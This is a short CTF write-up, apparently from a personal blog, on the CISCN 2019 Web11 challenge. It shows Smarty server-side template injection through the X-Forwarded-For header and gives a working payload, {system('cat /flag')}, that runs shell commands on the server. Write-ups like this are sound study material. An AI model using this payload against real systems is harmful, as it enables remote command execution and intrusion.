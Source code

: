 # 【CISCN 2019华东南】Web11


# [CISCN 2019华东南]Web11

## 思路
* 进入页面观察
  * 页面右上方有current-IP回显
  * 最下面有Smarty模板明显标志

* 大致应该是Smarty模板注入。注入点有可能是XFF修改
* 尝试抓包使用XFF，测试{{7*7}}，发现XFF为注入点
* 在XFF处尝试执行命令{system(&#39;ls /&#39;);}成功并且无绕过。直接cat /flag

## EXP

```
x-forwarded-for:{system(&#39;cat /flag&#39;)}
```



## 总结

* SSTI
* RCE

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-ciscn-2019%E5%8D%8E%E4%B8%9C%E5%8D%97web11/  


